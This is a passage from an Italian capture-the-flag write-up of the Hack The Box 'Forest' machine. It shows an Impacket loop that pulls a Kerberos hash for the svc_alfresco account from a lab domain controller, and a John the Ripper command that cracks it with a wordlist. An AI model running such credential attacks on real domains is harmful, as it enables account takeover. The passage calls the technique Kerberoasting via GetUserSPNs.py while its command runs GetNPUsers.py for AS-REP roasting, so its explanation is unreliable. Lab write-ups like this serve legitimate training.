 Quindi, creo un file _user.txt_ contenente la lista di utenti appena trovati e provo ad utilizzare la tecnica del _Kerberoasting_ attraverso l'impiego di [Impacket](https://github.com/fortra/impacket).

In particolare utilizzo il codice _GetUserSPNs.py_ (nella directory _exemples_) sulla lista di utenti precedentemente creata:

```bash
for user in $(cat ../users.txt); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

Ottengo così la seguente chiave per l'utente _svc_alfresco_:

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-1.png"/>
</p>

Quindi salvo questo TGS nel file _spn-svc_alfresco.txt_ e provo a ricavare la password tramite _johntheripper_:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt spn-svc_alfresco.txt
```

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-2.png"/>
</p>
